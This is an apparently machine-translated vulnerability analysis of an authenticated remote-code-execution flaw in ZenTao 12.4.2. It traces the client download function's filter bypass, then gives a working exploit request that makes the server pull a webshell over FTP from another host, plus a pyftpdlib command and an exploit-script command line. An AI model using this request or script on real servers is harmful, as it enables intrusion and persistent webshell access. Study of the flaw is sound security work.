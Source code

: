 ## Preface

In this article, we will analyze the Zendo 12.4.2 background getshell vulnerability, more than 2 months have passed since the release of this version, this vulnerability will have an impact on the version before 12.4.2, which has been fixed in the new version. In the reproduction of the vulnerability I also read some online articles for the reproduction of the vulnerability, but through repeated testing I found that the method described online in my environment and can not be successfully reproduced, I do not know if there is the same situation of partners, so I have audited the vulnerability points and successfully reproduced, we analyze the following.

 

## Code Analysis

First of all, the vulnerability requires background administrator privileges, so we first login to the background. Through the figure below we can see that the interface URL after login is:
`http://192.168.52.141/zentaopms/www/index.php?m=my&f=index`.

! [img](. /iamge/t012b1edfbb5968327e.png)

We see that the backend interface passes the m and f parameters respectively, so it's not hard to guess that it's probably calling the index method under the my class, let's take a look at the code for that segment.

! [img](. /iamge/t0159e9407d7b4a59e9.png)

Under /module/my/lang/zh-cn.php you can see that there is a method pointing to index, which verifies that our guess above is correct, so let's take a look at the code section for the file download vulnerability point.

! [img](. /iamge/t01e389578003518177.png)

Vulnerability is occurring in the client class under the donwload function, we locate the function to /module/client/control.php to find the method, the code is roughly the meaning of this paragraph will receive three parameters version, os, link, and then go to call **downloadZipPackage ** method file download operation, and some of the download failure events are different back to show, such as downloadFail, saveClientError in the list of methods in the above chart we can see that they call the specific meaning of the method, here will not repeat, and finally if there is no failure event time will return to the success. In downloadZipPackage does not need os method, so this is utilized in our later do not need to pass the parameter.

! [img](https://p1.ssl.qhimg.com/t01bc3554884a1ddd3a.png)

Then to follow up on the downloadZipPackage method, note that the real reason for the vulnerability is in that method.

! [img](. /iamge/t01d664441732fb42e4.png)

We can see that this code first of all the incoming link parameter base64 decoding operation, here the link parameter is the remote address of our shell, and then the following will be through a regular expression to determine whether the link address begins with http:// or https://, if there is a return return to return false and exit the method, otherwise call the method **parent::downloadZipPackage**, here in fact ignore the FTP file download method, that is to say, we can through the FTP service instead of file download operation so as to bypass the restrictions of the regular.

! [img](. /iamge/t01be4bcd3b62e34b7c.png)

The downloadZipPackage method is not a problem, it's a file download function that creates and names a folder under data with the passed in version and saves the downloaded file in it.

 

## Exploit

So this is actually very clear, through the beginning of the article introduces the m and f parameters of the call, we can be on the client class and download parameter call, and pass in the necessary version of the download parameter and link parameter can be completed to exploit the vulnerability of the exploit. Here the link address is the base64 encrypted ftp connection address,,for example.

**ftp://192.168.52.1/shell.php**

you can directly use python pyftpdlib module to open the FTP service is more convenient, the command.

**python -m pyftpdlib -p 21 -d . **Anonymous users are enabled by default, so you don't need to enter a username or password.

! [img](. /iamge/t010ff8a21f7d431f36.png)

Build exp as follows.

``
http://ip/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==
```

You can see the popup back to save successfully, and then check in the target machine to find that the download was successful, save path to

```
/zentaopms/www/data/client/1/shell.php
```

! [img](. /iamge/t01e196a8e5fd936c20.png)

Connecting to the Trojan, successfully utilized!

! [img](. /iamge/t01f672108d970a681f.png)

 

## Exploit EXP

! [img](. /iamge/t01af2b24af5c3ddc4c.png)

Build command:`python “Zentao RCE EXP.py” -H http://192.168.52.141 -U admin -P Admin888 -f 192.168.52.1`

where -H specifies the target host, -U specifies the background username, -P specifies the password, -f specifies the IP of the VMnet8 NIC, so that the virtual machine can normally access to the physical machine's FTP service, of course, if the test environment is also in the virtual machine then you can modify the source code to automatically obtain the IP can be.